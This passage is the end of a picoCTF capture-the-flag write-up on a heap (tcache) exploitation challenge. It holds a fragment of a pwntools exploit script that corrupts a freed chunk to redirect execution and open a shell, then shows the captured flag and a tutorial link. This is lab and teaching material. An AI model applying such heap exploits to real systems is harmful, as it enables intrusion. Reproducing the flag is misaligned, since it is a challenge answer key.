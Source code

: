 ```python
#examine our work
#pwn.gdb.attach(p, "heap bins") 
#time.sleep(2)

addHorse(0, 256, b"/bin/sh\x00\xff")
addHorse(1, 256, pwn.p64(0) + pwn.p64(0x401090) + b"\xff")
removeHorse(1)
removeHorse(0)
p.interactive()

```

When running port number is passed in as argument.

![getting the flag](images/flag.png)

`picoCTF{t_cache_4ll_th3_w4y_2_th4_b4nk_6112bbec}`

## Useful links

https://azeria-labs.com/heap-exploitation-part-2-glibc-heap-free-bins/






